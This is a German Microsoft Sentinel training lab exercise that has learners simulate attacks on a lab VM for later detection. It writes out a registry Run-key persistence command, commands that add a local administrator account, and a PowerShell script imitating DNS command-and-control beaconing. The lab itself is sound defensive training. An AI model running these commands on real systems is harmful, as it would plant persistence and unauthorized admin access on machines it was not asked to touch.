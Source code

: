 ```yaml
---
lab:
  title: Übung 6 – Durchführen von Angriffen
  module: Learning Path 7 - Create detections and perform investigations using Microsoft Sentinel
---
```


# Lernpfad 7 – Lab 1 – Übung 6 – Durchführen von Angriffen

## Labszenario

![Übersicht über Lab.](../Media/SC-200-Lab_Diagrams_Mod7_L1_Ex6.png)

Sie simulieren die Angriffe, die Sie später für die Erkennung und Untersuchung in Microsoft Sentinel verwenden werden.


>**Hinweis:** Eine **[interaktive Labsimulation](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Perform%20simulated%20attacks)** ist verfügbar, mit der Sie dieses Lab in Ihrem eigenen Tempo durcharbeiten können. Möglicherweise liegen geringfügige Unterschiede zwischen der interaktiven Simulation und dem gehosteten Lab vor, aber die dargestellten Kernkonzepte und Ideen sind identisch. 


### Aufgabe 1: Persistenzangriff mit dem Registrierungsschlüssel hinzufügen

>**Wichtig:** Die nächsten Schritte werden in einer anderen VM ausgeführt als der, in der Sie zuvor gearbeitet haben. Suchen Sie nach den Namensverweisen der virtuellen Maschine.

In dieser Aufgabe werden Sie Angriffe auf den Host ausführen, der mit Azure Arc verbunden ist und auf dem der Azure Monitor-Agent konfiguriert ist.

1. Melden Sie sich beim virtuellen Computer WINServer als Administrator mit dem Kennwort **Pa55w.rd**an.  

    >**Wichtig:** Die Funktion *SPEICHERN* im Lab kann dazu führen, dass die Verbindung zwischen WINServer und Azure Arc unterbrochen wird. Ein Neustart behebt das Problem.  

1. Wählen Sie in Windows **Start**. Dann **Herunterfahren**, dann **Neustart**.

1. Folgen Sie den Anweisungen, um sich erneut bei WINServer anzumelden.

1. Geben Sie bei der Suche in der Taskleiste *Befehl* ein. Die Eingabeaufforderung wird in den Suchergebnissen angezeigt. Klicken Sie mit der rechten Maustaste auf „Eingabeaufforderung“, und wählen Sie **Als Administrator ausführen** aus. Wählen Sie **Ja** in dem erscheinenden Fenster der Benutzerkontensteuerung, um die Ausführung der Anwendung zu erlauben.

1. Erstellen Sie in der Eingabeaufforderung einen Temp-Ordner im Stammverzeichnis. Vergessen Sie nicht, nach der letzten Zeile die Eingabetaste zu drücken:

    ```CommandPrompt
    cd \
    mkdir temp
    cd temp
    ```

1. Kopieren Sie diesen Befehl und führen Sie ihn aus, um die Persistenz des Programms zu simulieren:

    ```CommandPrompt
    REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
    ```


### Aufgabe 2: Rechteerweiterungsangriff mit Benutzer hinzufügen

1. Kopieren Sie diesen Befehl, und führen Sie ihn aus, um die Erstellung eines Administratorkontos zu simulieren. Vergessen Sie nicht, nach der letzten Zeile die Eingabetaste zu drücken:

    ```CommandPrompt
    net user theusernametoadd /add
    net user theusernametoadd ThePassword1!
    net localgroup administrators theusernametoadd /add
    ```


### Aufgabe 3: Befehls- und Kontrollangriff mit DNS

1. Kopieren Sie diesen Befehl und führen Sie ihn aus, um ein Skript zu erstellen, das eine DNS-Anfrage an einen C2-Server simuliert:

    ```CommandPrompt
    notepad c2.ps1
    ```

1. Wählen Sie **Ja**, um eine neue Datei zu erstellen, und kopieren Sie das folgende PowerShell-Skript in *c2.ps1*.

    >**Hinweis:** Beim Einfügen in die Datei der virtuellen Maschine wird möglicherweise nicht die gesamte Länge des Skripts angezeigt. Stellen Sie sicher, dass das Skript den Anweisungen in der Datei *c2.ps1* entspricht.

    ```PowerShell
    param(
        [string]$Domain = "microsoft.com",
        [string]$Subdomain = "subdomain",
        [string]$Sub2domain = "sub2domain",
        [string]$Sub3domain = "sub3domain",
        [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
    )
    $RunStart = Get-Date
    $RunEnd = $RunStart.addminutes($RunTime)
    $x2 = 1
    $x3 = 1 
    Do {
        $TimeNow = Get-Date
        Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        if ($x2 -eq 3 )
        {
            Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
            $x2 = 1
        }
        else
        {
            $x2 = $x2 + 1
        }    
        if ($x3 -eq 7 )
        {
            Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
            $x3 = 1
        }
        else
        {
            $x3 = $x3 + 1
        }
        $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
        Start-Sleep -Seconds $Jitter
    }
    Until ($TimeNow -ge $RunEnd)
    ```

1. Wählen Sie im Menü Notepad **Datei** und dann **Speichern**. 

1. Kehren Sie zum Eingabeaufforderungsfenster zurück, geben Sie den folgenden Befehl ein und drücken Sie die Eingabetaste. 

    >**Hinweis:** Es werden DNS-Auflösungsfehler angezeigt. Dies entspricht dem erwarteten Verhalten.

    ```CommandPrompt
    Start PowerShell.exe -file c2.ps1
    ```

>**Wichtig:** Schließen Sie diese Fenster nicht. Lassen Sie dieses PowerShell-Skript im Hintergrund laufen. Der Befehl muss einige Stunden lang Protokolleinträge generieren. Sie können mit der nächsten Aufgabe und den nächsten Übungen fortfahren, während dieses Skript läuft. Die durch diese Aufgabe erzeugten Daten werden später im Lab zur Bedrohungssuche verwendet. Bei diesem Vorgang werden keine großen Datenmengen erzeugt oder verarbeitet.


## Fahren Sie mit Übung 7 fort

